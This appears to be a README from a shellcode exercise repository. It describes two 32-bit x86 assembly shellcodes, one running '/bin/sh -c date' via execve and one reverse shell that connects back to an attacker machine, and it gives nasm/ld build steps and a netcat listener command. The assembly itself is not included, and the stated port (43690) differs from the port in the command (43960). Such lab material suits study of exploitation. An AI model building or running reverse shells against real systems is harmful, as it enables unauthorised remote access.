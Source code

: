 # Shellcode

## shell-code 1
The shell is execute command `/bin/sh -c date` using system call *execve*.

# Build and run 
```
nasm -g -f elf -o shell1.o shell-code1.asm
ld -m elf_i386 -o shell1 shell1.o
./shell1
```

## shell-code 2
A reverse shell connects back to the attacker machine, then executes a shell redirects all input&output to the socket. 
Netcat is used to listen for the reverse shell connection on port 43690.

# Build
```
nasm -g -f elf -o shell2.o shell-code2.asm
ld -m elf_i386 -o shell2 shell2.o
```
# Run netcat
```
nc -lvnp 43960
./shell2
```
